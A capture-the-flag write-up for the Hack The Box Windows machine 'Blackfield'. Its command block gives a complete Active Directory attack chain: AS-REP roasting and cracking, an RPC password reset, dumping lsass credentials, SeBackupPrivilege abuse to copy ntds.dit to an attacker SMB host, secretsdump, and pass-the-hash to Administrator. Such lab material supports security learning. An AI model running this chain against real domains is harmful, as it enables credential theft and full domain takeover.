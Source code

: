 # BLACKFIELD

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Hard](Hard)
- Platform: [HTB](HTB)
- **Exploits Used:**  
  - AS‑REP Roasting (no‑preauth users)  
  - RPC password reset via `setuserinfo2`  
  - Memory dump analysis with **pypykatz** (lsass.exe)  
  - **SeBackupPrivilege** → VSS snapshot via **diskshadow**  
  - **secretsdump.py** on `ntds.dit` + `SYSTEM` hive  
  - EFS nuance & session‑based decryption  

---

## TLDR 🚀
1. **AS‑REP roast** `support@BLACKFIELD.local` → crack `#00^BlackKnight`  
2. **SMB** as **support** (read‑only)  
3. **BloodHound** → discover `ForceChangePassword` on **audit2020**  
4. **RPC** (`setuserinfo2`) → reset **audit2020** → SMB access  
5. **Forensic** share → memory dumps → **pypykatz** → svc_backup NT hash  
6. **WinRM** as **svc_backup**  
7. **SeBackupPrivilege** → VSS mount with **diskshadow** → pull `ntds.dit` + `SYSTEM`  
8. **secretsdump.py** → dump all domain hashes → WinRM as **Administrator**  
9. **EFS**: need a process in Session 1 to decrypt `root.txt`  

---

## Tools 🛠️
- **nmap** – port & service discovery  
- **GetNPUsers.py** – AS‑REP roasting  
- **hashcat** (`-m 18200`) – crack Kerberoast/AS‑REP hashes  
- **crackmapexec**, **rpcclient** – SMB auth & RPC password resets  
- **ldapsearch**, **bloodhound-python** – AD enumeration & ACL analysis  
- **smbmap**, **smbclient** – share browsing & file pulls  
- **pypykatz** – dump creds from `lsass.DMP`  
- **evil-winrm** – interactive WinRM shell  
- **SeBackupPrivilegeCmdLets** – copy locked files as Backup Operator  
- **diskshadow** – create & expose VSS snapshot  
- **secretsdump.py** – extract domain NTLM hashes from `ntds.dit` + `SYSTEM`  
- **cipher**, **Meterpreter** – EFS insights & session migration  

---

## Commands to Solve Box 📝

```bash
# 1. AS‑REP roast “support” (no-preauth)
GetNPUsers.py -no-pass -dc-ip 10.10.10.192 BLACKFIELD.local/support \
  | grep krb5asrep > asrep.hash

hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt --force
# => support:#00^BlackKnight

# 2. SMB as support
crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'

# 3. BloodHound collect & find ForceChangePassword on audit2020
bloodhound-python -c ALL -u support -p '#00^BlackKnight' \
  -d BLACKFIELD.local -dc dc01.BLACKFIELD.local -ns 10.10.10.192

# 4. RPC reset audit2020’s password
rpcclient -U "BLACKFIELD.local/support%#00^BlackKnight" 10.10.10.192 \
  -c 'setuserinfo2 audit2020 23 "0xdf!!!"'

# 5. SMB as audit2020 → enumerate shares
crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'

# 6. Enter forensic share → grab lsass dump
smbclient -U audit2020//0xdf!!! //10.10.10.192/forensic
get memory_analysis/lsass.zip
unzip lsass.zip

# 7. pypykatz on lsass.DMP → extract svc_backup NT hash
pypykatz lsa minidump lsass.DMP

# 8. WinRM as svc_backup
evil-winrm -i 10.10.10.192 -u svc_backup \
  -H 9658d1d1dcd9250115e2205d9f48400d

# 9. Abuse Backup Privilege → VSS mount (diskshadow script vss.dsh)
#    Create vss.dsh with Windows CRLF:
#      set context persistent nowriters
#      set metadata c:\programdata\df.cab
#      set verbose on
#      add volume c: alias df
#      create
#      expose %df% z:
evil-winrm> Upload vss.dsh & diskshadow /s c:\programdata\vss.dsh

# 10. SMB server on attacker (smbserver.py s . -smb2support -username df -password df)
evil-winrm> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit
evil-winrm> reg.exe save hklm\system \\10.10.14.14\system

# 11. Dump full domain hashes
secretsdump.py -system system -ntds ntds.dit LOCAL

# 12. WinRM as Administrator
evil-winrm -i 10.10.10.192 -u Administrator \
  -H 184fb5e5178480be64824d4cd53b99ee
```

---

## Actions Learned 💡
- **AS‑REP roasting** for preauth‑not‑required accounts.  
- **RPC password reset** via `setuserinfo2` on AD.  
- **Memory dump analysis** (`pypykatz`) on `lsass.exe`.  
- **SeBackupPrivilege** abuse with VSS (`diskshadow`) to read locked system files.  
- **NTDS secretsdump** to harvest every domain hash.  
- **EFS protection** requires a process in the console session to decrypt.  

---

## References 📚
- AS‑REP Roasting & Kerberos:  
  – https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py  
- RPC Password Reset Trick:  
  – https://mubix.ca/past/hacking/ad-password-reset-via-rpc/  
- pypykatz MiniDump extraction:  
  – https://github.com/skelsec/pypykatz  
- VSS & diskshadow for backups:  
  – https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow  
- secretsdump & SeBackupPrivilege:  
  – https://github.com/SecureAuthCorp/impacket/wiki/Secretsdump  